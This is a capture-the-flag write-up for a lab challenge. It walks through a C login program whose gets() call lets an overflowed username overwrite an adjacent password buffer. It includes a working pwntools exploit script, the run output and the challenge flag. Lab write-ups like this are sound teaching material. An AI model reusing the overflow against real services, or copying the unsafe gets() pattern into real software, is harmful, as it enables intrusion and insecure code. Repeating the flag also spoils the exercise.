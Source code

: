 ```yaml
---
sticker: emoji//1f6a9
---
```


# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
  ______ _          __      __         _ _
 |  ____| |         \ \    / /        | | |
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |
                 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
    - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
    - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
        
2. **Stack Layout**:
    - `password[100]` is allocated first (lower memory address).
    - `username[100]` is allocated next (higher memory address).
    - Writing beyond 100 bytes in `username` overflows into `password`.
        
3. **Login Bypass**:
    - The login check requires:
        - `username == "bytereaper"`
        - `password == "5up3rP4zz123Byte"`.
    - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
    # Remote host and port (updated for this target)
    host = "10.10.61.110"
    port = 1337

    # Enable pwntools logging so we see:
    # [+] Opening connection to 10.10.61.110 on port 1337: Done
    # [+] Receiving all data: Done (XXB)
    # [*] Closed connection to 10.10.61.110 port 1337
    context.log_level = "info"

    # 1) Connect to the remote service
    conn = remote(host, port)

    # 2) Build the payload
    #    - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
    #    - 101 "A" bytes overflow into the password buffer
    #    - "5up3rP4zz123Byte" is the hardcoded password the program expects
    payload = (
        b"bytereaper\x00"       # username + null terminator
        + b"A" * 101            # overflow filler up to password check
        + b"5up3rP4zz123Byte"   # correct password string
    )

    # 3) Wait until the remote binary prompts "Username:"
    conn.recvuntil(b"Username:")

    # 4) Send the payload (pwntools will automatically append "\n")
    conn.sendline(payload)

    # 5) Read everything the server sends back (banner + flag or error)
    #    We give a small timeout to avoid hanging indefinitely
    response = conn.recvall(timeout=2).decode(errors="ignore")

    # 6) Close the connection
    conn.close()

    # 7) Extract the flag from the response.
    #    The flag is expected to match THM{…}, so we search with a regex.
    match = re.search(r"THM\{.*?\}", response)
    if match:
        # Print only the flag, prefixed so it's clear in the output
        print(f"Flag: {match.group(0)}")
    else:
        # If no flag was found, print the full response for debugging
        print("No flag found. Full response:\n")
        print(response)

if __name__ == "__main__":
    main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![](cybersecurity/images/Pasted%2520image%252020250605184529.png)

